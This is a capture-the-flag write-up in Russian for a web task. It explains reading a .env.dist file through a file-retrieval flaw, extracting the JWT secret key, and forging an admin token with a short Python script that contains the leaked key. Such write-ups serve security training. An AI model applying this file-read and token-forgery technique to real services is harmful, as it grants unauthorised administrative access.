





#hard #web #JWT #FS

#### Задача

| Вводные   | Материалы                                                                                                                                                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Исходники | Исходники бекенда сайта: [brethren.tar.gz](./assets/brethren.tar.gz)                                                                                                                                                            |
| Сайт      | https://t-brethren-y25eg5ir.spbctf.org                                                                                                                                                                                          |
| Условие   | Студенческое капибратство «Тета Каппа» устроило испытание для первокурсников: они должны похитить билеты к экзаменам с сервера института.<br><br>Подмените их на другие — вымышленные. Не только же студентам можно дурачиться! |

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины
















